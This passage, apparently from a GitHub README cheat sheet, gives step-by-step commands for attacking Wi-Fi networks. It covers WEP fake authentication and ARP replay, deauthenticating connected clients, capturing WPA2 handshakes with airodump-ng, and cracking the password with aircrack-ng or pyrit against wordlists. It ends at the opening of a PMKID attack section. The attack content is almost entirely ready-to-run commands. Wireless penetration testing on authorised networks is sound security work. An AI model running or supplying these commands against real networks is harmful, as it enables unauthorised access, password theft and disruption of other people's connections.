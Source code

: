 ```bash
aireplay-ng -1 0 -e $AP_NAME -a $AP_MAC -h $MY_MAC $IFACE
aireplay-ng -3 -b $AP_MAC -h $MY_MAC $IFACE
aireplay-ng -0 1 -a $AP_MAC -c $STATION_MAC $IFACE
```

3. Crack the password using Aircrack-ng
```bash
aircrack-ng $PCAP_FILE
```


-------------------------


<br>

# <a name="4"></a>4. WPA2-PSK cracking

## <a name="41"></a>4.1. Cracking the 4-way-handshake

1. Start capture

```bash
airodump-ng -c $AP_CHANNEL --bssid $AP_MAC -w $PCAP_FILE $IFACE
```

2. Deauthenticate an user. Stop airodump capture when you see a message 'WPA handshake: $MAC'

```bash
aireplay-ng -0 1 -a $AP_MAC -c $STATION_MAC $IFACE
```

3. Option 1: Crack the handshake using Aircrack-ng

```bash
aircrack-ng -w $WORDLIST capture.cap
```

You can get wordlists from [here](https://github.com/kennyn510/wpa2-wordlists).

4. Option 2: Crack the handshake using Pyrit

```
pyrit -r $PCAP_FILE analyze
pyrit -r $PCAP_FILE -o $CLEAN_PCAP_FILE strip
pyrit -i $WORDLIST import_passwords
pyrit eval
pyrit batch
pyrit -r $CLEAN_PCAP_FILE attack_db
```

<br>

## <a name="42"></a>4.2. PMKID attack

You can use [this script](scripts/wpa/pmkid.sh) or follow these steps:
